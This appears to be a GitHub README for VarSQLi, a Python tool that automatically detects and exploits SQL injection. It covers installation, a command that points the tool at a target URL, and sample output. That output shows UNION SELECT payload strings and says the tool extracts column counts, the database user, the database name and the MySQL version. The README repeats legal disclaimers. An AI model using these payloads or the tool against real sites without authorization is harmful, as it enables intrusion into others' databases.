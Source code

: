 - `Python  | 3`
- `Version | 1.1.5`
# Variable-SQL-Injection
### Note From VarSQLi
> - _admin_ : [Twitter](https://twitter.com/Anonym0us_VNPC)
> - _Website_ : [Ghost Man](https://ghostmanews.blogspot.com)
> - _facebook_ : [adonis bertha](https://www.facebook.com/francesca.savino.18?mibextid=ZbWKwL)
> - _Github_ : @Phamchie

VarSQLi allows users to search for and exploit SQL injection vulnerabilities automatically. The tool employs techniques such as input string testing, SQL syntax analysis, and SQL statement testing to determine if a system is susceptible to SQL injection.
> warning: the tool will not have a dump database function, for the sake of protecting other people's private information, and absolutely not used for any other bad purpose, especially exploiting government and school sites  learn
### Screenshot
<img src="https://raw.githubusercontent.com/Phamchie/varsqli/VarSQLi/data/Screenshot_2023-08-02-00-24-06-25.jpg">

> However, using VarSQLi or any other database exploitation tool to attack someone else's database is illegal and can have serious consequences. Illegally accessing someone else's database may violate information security regulations and ethical standards in information technology.

Using VarSQLi or any unauthorized database exploitation tool can lead to imprisonment and criminal liability. We must adhere to security regulations and policies, respect privacy rights, and refrain from compromising others' systems and data.

> Instead of relying on database exploitation tools, we should focus on enhancing our knowledge of security, understanding common security vulnerabilities, and implementing security measures to protect our systems and data. Collaborating with security experts and complying with legal regulations will ensure safety and ethical use of information technology

### setup - install tool
To set up VarSQLi, follow these steps:

1. Clone the VarSQLi repository from GitHub using the following command:
- `git clone https://github.com/Phamchie/varsqli`
2. Navigate to the VarSQLi directory:
- `cd varsql`
3. Install the required dependencies by running the setup script:
- `python3 setup.py`
- `python3 varsqli.py --help`
- Full Source Setup
```
git clone https://github.com/Phamchie/varsqli/
cd varsqli
python3 setup.py
python3 varsqli.py --help
```
Once the setup is complete, you can start using VarSQLi to identify and exploit SQL injection vulnerabilities. However, always ensure that you have proper authorization and adhere to legal and ethical guidelines when conducting security assessments.

#### How To Injection - Exploit 
- You can see that in the `--help` section, there is only one mode, `--url` to update the url to attack
```
              ___
 _____         H  _____     _ _  {1.1.5}
|  |  |___ ___[,]|   __|___| |_|
|  |  | .'|  _[(]|__   | . | | | {Pham Chien}
 \___/|__,|_| [)]|_____|_  |_|_|
               V         |_|  ghostmanews.blogspot.com


[+] Remember, using VarSQLi or any similar tool for illegal activities can result in severe legal consequences, including imprisonment. It is crucial to prioritize ethical hacking practices, collaborate with security professionals, and comply with relevant laws and regulations to ensure responsible and lawful use of such tools.

usage: varsqli.py [-h] [--url URL]

VarSQLi - Auto SQL Injection tools

options:
  -h, --help  show this help message and exit
  --url URL   URL Target (ex :
              https://test.com/yourpath_vulnsqli.php?id=1)
```
- To attack the target , you write the command :
-  `python3 varsqli.py --url < url vulerable >`
- the result will be
```
[INFO] Testing connect to target url..
[INFO] Testing IF the target url content is stable
[INFO] Target is the content stable..
[INFO] Testing 'Generic atline queries'..
[INFO] Testing 'UNION SELECT NUMBER COUNT COLUMNS (MySQL Select).'
[INFO] Testing Payload '+AND+0+UNION+SELECT+1,2--+-'
[INFO] Total Response Content HTML stable : 200 OK
[INFO] Testing Payload '+AND+0+UNION+SELECT+1,2,3--+-'
```
<img src="https://raw.githubusercontent.com/Phamchie/varsqli/main/.github/workflows/Screenshot_2023-08-02-14-49-50-36.jpg">

- it is starting to attack, and after a while exploiting with UNION SELECT payloads to get the column number of the website, it will announce like this
- it is the number of columns, payload , target, user , database and the target's MySQL version

<img src="https://raw.githubusercontent.com/Phamchie/varsqli/VarSQLi/.github/workflows/Screenshot_2023-08-02-14-50-17-53.jpg">

- like last version, we don't have the feature to print database name and MySQL user, but i guarantee that the latest update version of too right now will have that feature 😃..
- :)
- and here is the target database of tables and columns that VarSQLI has exploited
<img src="https://raw.githubusercontent.com/Phamchie/varsqli/main/.github/workflows/Screenshot_2023-08-02-14-50-35-49.jpg">

- so we've come to the end, so what's the ending?

# Ending 
A tip and note to use :
- Can you see how dangerous the SQL injection vulnerability is, here is a piece of advice for you, this tool is only for the nature, is to show the database name, and will never provide  dump database for users only, to ensure the security of network security
> Remember, using VarSQLi or any similar tool for illegal activities can result in severe legal consequences, including imprisonment. It is crucial to prioritize ethical hacking practices, collaborate with security professionals, and comply with relevant laws and regulations to ensure responsible and lawful use of such tools.
- Contact : [phamchienlc06@gmail.com](phamchienlc06@gmail.com)
- Telegram Channel : [My Channel](https://t.me/Anon0psNews)
- Telegram : [Adonis Bertha](https://t.me/anonopsvn)
- website : [website](https://ghostmanews.blogspot.com)
